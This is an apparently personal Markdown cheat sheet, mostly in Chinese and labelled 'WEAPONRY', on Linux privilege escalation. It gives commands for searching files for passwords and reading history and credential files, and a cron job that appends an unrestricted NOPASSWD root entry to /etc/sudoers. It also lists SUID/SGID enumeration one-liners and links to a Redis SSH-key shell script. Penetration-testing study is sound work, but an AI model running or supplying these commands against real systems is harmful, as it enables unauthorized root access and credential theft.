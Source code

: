 ```yaml
---
title: Linux Priv Esc
date: 2020-11-14 19:11:18
category: WEAPONRY
---
```


# Linux 提权

## 信息泄漏
### 泄漏的账密
``` bash
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" # Joom
```
### 历史记录
``` bash
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```



## Kernel Vulns


## 配置不当

### 系统服务的错误权限配置漏洞
``` bash
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg
```

### sudo -l


### Crontab
``` bash
vi user.sh
echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers
```

`/etc/crontab` 中加入计划任务。
``` bash
vi /etc/crontab
*/1 * * * * root sh /path2script/user.sh >> /tmp/log.txt
```
最后
``` bash
sudo su
```

一些配置
``` bash
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```


### SUID 
``` bash
find / -perm -1000 -type d 2>/dev/null              # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null               # 以文件所属用户组权限运行
find / -perm -u=s -type f 2>/dev/null               # 以文件所属用户权限运行
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null # 以上两者合集
find / -user root -perm -4000 -print 2>/dev/null    # 先收集，待确认
find / -user root -perm -4000 -exec ls -ldb {} \    # 先收集，待确认

# Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done   

# 从 / 开始 3 个文件夹深度的范围内查找 SGID 或 SUID ，同时不是符号链接的文件
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null   
```

## Third Part Service

### Root-Redis 未授权访问
任意角色未授权登录，公钥写入。[redis-sshkey-getshell.py](https://github.com/Xyntax/POC-T/blob/9d538a217cb480dbd1f94f1fa6c8154a41b5b106/script/redis-sshkey-getshell.py)